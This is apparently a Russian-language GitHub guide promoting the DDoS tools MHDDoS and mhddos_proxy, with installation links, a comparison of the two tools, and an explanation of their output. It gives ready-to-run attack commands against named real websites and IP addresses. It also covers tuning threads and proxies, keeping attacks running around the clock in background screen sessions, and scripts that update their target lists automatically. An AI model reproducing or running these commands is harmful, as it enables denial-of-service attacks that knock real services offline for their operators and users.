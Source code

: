 <h1 align="center">Анализ средства mhddos_proxy</h1> 
<br/>

April 02, 2022

Инструкции по установке mhddos_proxy напрямую на Windows / Mac / Linux / Android: [ссылка!](https://github.com/BionecX/mhddos_p/blob/main/docs/installation.md)

Автоматизированный mhddos_proxy для Linux: [ссылка!](https://github.com/alexnest-ua/auto_mhddos_alexnest#readme)

Автоматизированный mhddos_proxy для Windows: [ссылка!](https://github.com/alexnest-ua/runner_for_windows#readme) 


то есть Docker, который, по сути, является целой виртуальной машиной и жрет много ресурсов, не нужен вообще - 🔺замена на python скрипт поможет снизить нагрузку на ваш процессор в 2-3 раза


Автоматизированный mhddos_proxy для Docker: [ссылка!](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker#readme)


<h1 align="center">🟢Полезная информация по MHDDoS и mhddos_proxy🟢</h1>
<br/>

### 1.Немного истории 

<br/>

Так как поступает много вопросов, то специально выделю отдельную статью, чтобы подробно разобрать, что такое mhddos_proxy и с чем его едят:

https://github.com/BionecX/mhddos_p  (полностью открытый код)


Кратко о самом mhddos_proxy - он появился довольно недавно (07.03.22), как надстройка над эффективным методом атаки MHDDoS (появившийся еще 13.10.20 на Гитхабе, а может еще раньше).

https://github.com/MatrixTM/MHDDoS  (полностью открытый код)

Всю основную информацию о них вы можете найти на оф. странице README перейдя по ссылкам выше, а дальше я расскажу о
### 2. Преимущества и недостатки двух методов:

<br/>

Если в целом сравнивать эти методы с другими, то все очень сильно отстают (даже крупные разработчики автоматических программ), потому что у mhddos_proxy есть список постоянно обновляемых прокси-серверов и 50 различных методов DDoS-атаки, включая обходы различных DDoS-защит.

Более подробно сравним именно MHDDoS и mhddos_proxy

  - Если брать команду для обычного MHDDoS, то она выглядит так:

   `python3 start.py GET https://tsn.ua/ 5 1000 socks5.txt 1000 3600 true`

Думаю, вы будете согласны, что в этой команде вообще ничего не понятно: то есть какой параметр за что отвечает (я бы мог расписать, но лучше распишу для mhddos_proxy)

  - В обычном MHDDoS, чтобы бить через прокси из файла socks5.txt их нужно еще для начала спарсить (занести в тот файл), например, как рассказано вот здесь: [ссылка](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/ddos-na-pk-2-02-24.md#%D0%B4%D0%B4%D0%BE%D1%81-%D0%BD%D0%B0-%D0%BF%D0%BA-2) (просто пример настройки MHDDoS вместе с прокси), но тогда у вас будет неизменный список прокси, которые очень быстро перебаняться

  - В обычном MHDDoS для каждой цели атаку нужно запускать отдельно, то есть если 10 целей – то 10 разных команд

  - Так как сам MHDDoS создавался давно, то методы обхода DDoS-защиты в общем-то не очень менялись(а DDoS-защиты наоборот становились умнее), а когда их начали менять, то появились новые проблемы, поэтому разработчик mhddos_proxy перетянул неделю назад (25.03.22 ) себе весь оригинальный репозитарий, и начал делать из него более адекватный скрипт, поэтому вы можете видеть сообщения по типу "Работа метода DGB не гарантирована", так как он нашел некоторые спорные моменты в коде, которые и я раньше замечал

  + самый весомый плюс это то, что разработчик mhddos_proxy – украинец, (в отличие от MHDDoS, где команда из Ирана)

  + у mhddos_proxy есть постоянно обновляемый список прокси, который каждые 30 минут парситься в частном репозитарии, чтобы оставить только те, которые реально существуют

  + далее каждый раз проверяется именно работоспособность каждого из этих, поэтому из ~16 000 остается только 100-500 трудоспособных, но более чем достаточно для атак

  + огромное преимущество mhddos_proxy, что в одной команде можно указать множество целей и методов, которые затем автоматически переконвертируются в отдельную команду для MHDDoS

  + также теперь более понятно какие параметры за отвечающие, например:

        python3 runner.py <Цели-сайты> --http-methods <Метод(ы)> -t <Потоки> --rpc <Подключение> -p <Обновление> --debug 

Более подробно о каждом параметре можно почитать здесь: [ссылка](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/ph_mhddos-proxy-install-on-Linux-with-terminal-03-31.md#4-%D1%88%D0%B0%D0%B1%D0%BB%D0%BE%D0%BD-%D0%BA%D0%BE%D0%BC%D0%B0%D0%BD%D0%B4%D1%8B) 

  + в mhddos_proxy можно указать параметр --vpn и бить именно из своего IP


❗️поэтому если вы еще не поставили себе mhddos_proxy – то идите сюда и ставьте: [ссылка!](https://t.me/ddos_zec)❗️
### 3. Информация, которую нам выдает mhddos_proxy

Далее разберемся с тем, что же столь интересное нам выводит на экран mhddos_proxy

Для ПРИМЕРА рассмотрим следующую простую команду:

    python3 runner.py https://tsn.ua/ https://politeka.net/ https://www.gismeteo.ua/ -t 3000 -p 1200 --rpc 1000 --http-methods STRESS GET --debug


Есть вот такой вывод на экран:

![скриншот терминала из программы](https://github.com/BionecX/mhddos_p_docs/blob/main/images/README_analiz_sredstva_mhddos_h_1.png)


Более подробно о каждом пункте:

1) __`Цель`__ – здесь думаю все понятно, просто поочередно выводятся все цели которые были указаны в команде

2) __`Порт`__ – именно для URL ссылок (а не IP) берутся следующие порты:

для ссылки, начинающейся на https:// - берется порт 443

для ссылки, начинающейся на http:// - берется порт 80

3) __`Метод`__ – для каждой http(s) цели берется каждый метод из списка --http-methods, а для целей tcp:// и udp:// берутся всегда методы TCP и UDP соответственно

4) __`Потоков`__ – здесь нюанс в том, что количество указанных потоков –t (в нашем случае –t 3000) делится сначала на количество целей в команде, а затем для Layer7 (http/https) делится на количество методов --http-methods , поэтому в нашем случае будет:

3000 / 3 = 1000 / 2 = 500 потоков на каждую цель

5) __`PPS`__ – количество отправленных запросов за секунду времени на цель (может быть любая)

6) __`BBS`__ – размер этих запросов в kbit или Mbit

🔴7) / __`%`__ - ВАЖНО, этот процент никак не влияет на эффективность работы, это процент периода атаки (в нашем случае -p 1200, т.е. 20 минут), когда этот % будет 99%, то скрипт начнет перезагружать список прокси, поэтому 2- 3 минуты может ничего не выводить, НО ЭТО НОРМАЛЬНО – дальше начнется новый цикл атаки


Также нормально, что первые 1-5% атаки могут выводить нули PPS/BBS – это ваш процессор разгоняется и набрасывает на прокси 1000 запросов (-rpc 1000) для отправки на цель,
но если везде нули уходят больше 2-4 минут, значит что-то не так, вам нужно:
проверить есть ли у вас инет на машине, если долго НЕ грузить сайты 
-> значит нет
-> останавливайте атаку(Ctrl+C)
-> переподключайте ВПН (или просто подождите 2-3 минуты)
-> уменьшайте параметры -t и --rpc с шагом 1000 и 200 соответственно
-> запускайте атаку и проверяйте снова
4. Інформація про те, як перевести будь-який процес у фон:

Также добавляю информацию, как на Linux перевести любую атаку в фон:

1) Устанавливаем средство, которое будет переводить наши процессы в фон:

    sudo apt install --upgrade screen -y

2) Запускаем процесс в фон:

    cd ~/mhddos_proxy
    
```
    screen -S "voenkomat" sudo python3 runner.py http://contract-army.ua https://www.voenkoma.com https://tsn.ua http://5.101.152.200:80 http://45.130.41.19:80 http://45.130.41.19:443 https://45.130.41.19:443 http://95.213.199.232:443 https://95.213.199.232:443 http://95.213.199.232:1500 https://95.213.199.232:1500 tcp://5.101.152.200:80 tcp://45.130.41.19:80 tcp://45.130.41.19:443 tcp://95.213.199.232:80 tcp://95.213.199.232:443 tcp://95.213.199.232:1500 -t 5000 -p 1200 --rpc 1000 --http-methods GET STRESS --debug
```

Чтобы перевести фон - нажмите `Ctrl+A`, и сразу `Ctrl+D`

если все успешно будет сообщение [detached from voenkomat]

Теперь процесс будет работать даже при закрытии терминала
(т.е. 24/7, если мы говорим о Linux-серверах:
[ссылка](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5ccc)

В этом случае процессу присваивается имя voenkomat, которое вы потом сможете
1) Отследить вот так:

    `screen -ls`

Вам покажет список запущенных процессов на фоне

2) Чтобы перейти к процессу и посмотреть, что он выводит, пишите: 

    `screen -r voenkomat`

После этого, если захотите убить процесс:
Нажмите `Ctrl+C`

чтобы снова отсоединиться и оставить его работать:

Нажимаем `Ctrl+A`, затем `Ctrl+D` – И ВСЕ ГОТОВО – РАБОТАЕТ В ФОНЕ

В дальнейшем вы можете изменять саму команду: sudo python3 ...
и имя процесса с voenkomat на любое другое

В ФОНЕ ДОЛЖНО БЫТЬ НЕ БОЛЕЕ ДВУХ ЗАПУЩЕННЫХ АТАК, ИНАЧЕ БУДЕТ ТРОТЛИНГ ПРОЦЕССОРА И СНИЖЕНИЕ ЭФФЕКТИВНОСТИ ДО НУЛЯ

!!!ВНИМАНИЕ!!! Если у вас нет времени постоянно мониторить цели, то я сделал полностью автоматический скрипт для Linux, который обновляет сам себя (т.е. у вас всегда будет актуальна рабочая версия) и каждые 20 минут обновляет список целей:
[ссылка!](https://github.com/alexnest-ru/auto_mhddos_alexnesttt) 
